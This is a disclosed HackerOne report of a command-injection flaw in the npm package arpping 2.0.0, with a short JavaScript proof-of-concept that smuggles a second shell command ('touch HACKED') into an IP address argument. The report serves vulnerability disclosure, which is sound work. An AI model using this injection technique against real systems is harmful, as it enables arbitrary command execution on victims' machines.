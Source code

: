 # [arpping] Remote Code Execution

## Report Details
- **Report ID**: 972220
- **URL**: https://hackerone.com/reports/972220
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-09-01T14:34:13.800Z
- **Disclosed**: 2021-01-14T08:39:29.702Z

## Reporter
- **Username**: solov9ev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report `RCE` in `arpping`
It allows to execute arbitrary commands on the victim's PC

# Module

**module name:** arpping
**version:** 2.0.0
**npm page:** `https://www.npmjs.com/package/arpping`

## Module Description

Discover and search for internet-connected devices (locally) using ping and arp

## Module Stats

[16] weekly downloads

# Vulnerability

## Vulnerability Description

Code injection occurs when using commands: `ping`, `arp`

## Steps To Reproduce:

- Create and run the following POC index.js:

```javascript
const Arpping = require('arpping');

var arpping = new Arpping();
arpping.ping(["127.0.0.1;touch HACKED;"]); // arpping.arp(["127.0.0.1; touch HACKED;"]);
```
- The exploit worked and created the file - `HACKED`

{F972163}

## Patch

Check input before command

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Command Injection on `arpping` module via insecure command

## Attachments
- arpping_rce.mp4
